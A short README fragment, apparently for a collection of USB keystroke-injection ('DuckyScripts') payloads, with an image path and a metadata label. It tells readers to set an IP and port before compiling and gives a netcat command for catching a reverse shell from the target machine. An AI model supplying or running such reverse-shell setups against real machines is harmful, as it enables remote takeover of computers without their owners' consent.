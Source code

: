 #DuckyScripts

Make sure you change the ip and port values before compiling using https://payloadstudio.com/community/

Run the below command server side to catch shell
stty raw -echo; (stty size; cat) | nc -lvnp <port>
